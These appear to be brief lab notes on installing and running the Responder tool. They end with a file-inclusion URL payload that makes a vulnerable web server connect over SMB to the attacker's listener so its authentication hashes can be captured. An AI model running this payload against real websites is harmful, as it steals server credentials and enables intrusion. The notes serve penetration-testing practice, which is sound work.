 # Install Responder

```
git clone https://github.com/lgandx/Responder
```

- Also, verify that Responder can listen for SMB requests

```
cat responder.conf

; Servers to start
SQL      = On
SMB      = On
```

# Specify network interface

```
sudo python3 Responder.py -I tun0 (example)
```

- After running this, you can use host which is written in message below and use it in browser, Responder will work as listener
- Remember, the website should be vulnerable to RFI and LFI

```
http://example.com?page=//<responder_ip>/<some_random_file_name>
```

